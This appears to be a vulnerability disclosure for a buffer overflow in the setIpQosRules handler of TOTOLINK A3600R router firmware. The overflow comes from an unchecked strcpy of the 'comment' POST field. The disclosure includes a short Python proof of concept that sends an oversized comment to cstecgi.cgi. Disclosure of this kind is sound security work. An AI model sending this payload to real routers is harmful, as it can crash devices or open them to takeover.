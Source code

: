 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setIpQosRules` function. The `v12` variable receives the `comment` parameter from a POST request. However, since the user can control the input of `comment`, the `strcpy(v14, v12);` can cause a buffer overflow vulnerability.

![image-20240721011136760](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011136760.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"comment":"a"*0x1000, "topicurl":"setIpQosRules"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721011208287](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011208287.png)
